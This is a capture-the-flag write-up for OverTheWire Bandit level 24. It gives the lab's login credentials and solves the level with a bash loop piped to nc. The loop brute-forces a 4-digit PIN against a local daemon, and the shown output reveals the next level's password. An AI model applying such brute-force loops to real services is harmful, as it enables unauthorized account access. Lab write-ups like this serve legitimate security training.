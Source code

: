 # Level 24

## Objetivo
- A daemon is listening on port 30002 and will give you the password for bandit25 if  
given the password for bandit24 and a secret numeric 4-digit pincode. There is no  
way to retrieve the pincode except by going through all of the 10000 combinations,  
called brute-forcing.
## Datos de acceso
- Host: bandit.labs.overthewire.org
- Port: 2220
- User: bandit24
- Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución
- Send port 30002 the current password, however this will not give you the next password. Brute force is required, loop the current password until you get the new one.
```
bandit24@bandit:~$ nc localhost 30002 <<< VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
^C
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```
## Notas adicionales
